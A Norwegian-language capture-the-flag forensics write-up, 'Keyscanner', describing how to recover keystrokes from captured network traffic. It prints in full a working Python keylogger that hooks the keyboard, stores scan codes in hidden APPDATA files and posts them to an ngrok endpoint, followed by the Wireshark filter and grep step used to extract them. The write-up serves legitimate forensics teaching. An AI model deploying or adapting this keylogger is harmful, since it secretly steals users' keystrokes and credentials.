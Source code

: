 # Keyscanner
En gøy forensics oppgave med litt databehandling der man måtte integrere forståelse av nettverkslogger med et script som sender `http`-requests. 

# Oppgave av Vealending 
Our CSIRT recently discovered a keylogger running on one of our systems.
They've managed to capture the network traffic containing the keylogger's activity and the offending script itself.
Can you figure out what information was compromised?

# Løsning
Vi får nettverkstraffikken `capture.pcapng` og `Keylogger.py`. Ved å lese skriptet får vi informasjon om hvilken server keyloggingsaktiviteten ble sendt til. 
```python
import keyboard
import requests
import ctypes
import uuid
import os


class Logger:
    MAX_FILE_SIZE = 128
    APPDATA_FOLDER = os.getenv("APPDATA")
    FILE_NAME_PREFIX = "."
    FILE_NAME_SUFFIX = ".sc"
    REMOTE_SERVER = "http://c784-89-11-175-7.eu.ngrok.io/l0gg3r_3ndp0in7"
    REMOTE_HEADERS = {"Content-Type": "application/octet-stream"}

    def __init__(self):
        self.file_path = os.path.join(
            self.APPDATA_FOLDER,
            self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
        )
        self.file_size = 0

    def _get_layout(self):
        layout_name = ctypes.create_unicode_buffer(9)
        if ctypes.WinDLL("user32").GetKeyboardLayoutNameW(layout_name):
            return layout_name.value
        return None

    def _write_to_file(self, event):
        with open(self.file_path, "ab") as f:
            try:
                f.write(bytes([event.scan_code]))
            except ValueError:
                pass  # Discard extended scan codes

        self.file_size = os.path.getsize(self.file_path)

        if self.file_size >= self.MAX_FILE_SIZE:
            with open(self.file_path, "rb") as f:
                response = requests.post(
                    self.REMOTE_SERVER,
                    headers=self.REMOTE_HEADERS,
                    params={"layout": self._get_layout()},
                    data=f,
                )

            if response.status_code == 200:
                os.remove(self.file_path)

            self.file_path = os.path.join(
                self.APPDATA_FOLDER,
                self.FILE_NAME_PREFIX + str(uuid.uuid4()) + self.FILE_NAME_SUFFIX,
            )
            self.file_size = 0

    def start_logging(self):
        keyboard.hook(self._write_to_file)
        keyboard.wait()


if __name__ == "__main__":
    keylogger = Logger()
    keylogger.start_logging()

```
Vi filtrerer slik `http.request.uri matches "/l0gg3r_3ndp0in7"` og lagrer datene som var tilsendt som plaintext. Deretter kan vi lettere utvinne all dataene og lagre det i en fil. For eksempel brukte jeg `cat data.txt | grep "0000  " -A 8 -B 0 > new.txt`.
Et eksempel packet inneholder også `layout` som beskriver hvilken keyboard layout var blitt brukt. Dette er nyttig for å dekryptere dataene ved skankodene. 
